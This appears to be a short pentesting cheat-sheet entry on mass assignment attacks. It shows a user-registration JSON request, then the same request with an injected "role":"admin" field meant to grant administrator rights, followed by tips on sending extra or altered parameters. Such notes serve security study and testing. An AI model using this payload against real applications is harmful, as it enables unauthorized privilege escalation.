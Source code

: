 # Mass Assignment Attack
- Try to manipulate data sent in the **HTTP** request.
	```json
	{
		"email":"cxnsxle2@cxnsxle2.com",
		"password":"cxnsxle123",
		"passwordRepeat":"cxnsxle123",
		"securityQuestion":{
			"id":2,
			"question":"Mother's maiden name?",
			"createdAt":"2023-08-23T23:41:35.950Z",
			"updatedAt":"2023-08-23T23:41:35.950Z"
		},
		"securityAnswer":"Cxnsxle"
	}
	```
	```json
	{
		"email":"cxnsxle2@cxnsxle2.com",
		"role":"admin",
		"password":"cxnsxle123",
		"passwordRepeat":"cxnsxle123",
		"securityQuestion":{
			"id":2,
			"question":"Mother's maiden name?",
			"createdAt":"2023-08-23T23:41:35.950Z",
			"updatedAt":"2023-08-23T23:41:35.950Z"
		},
		"securityAnswer":"Cxnsxle"
	}
	```
- Try sending more parameters than expected and analyze the response.
- Try manipulating the existing parameters than expected and analyze the response.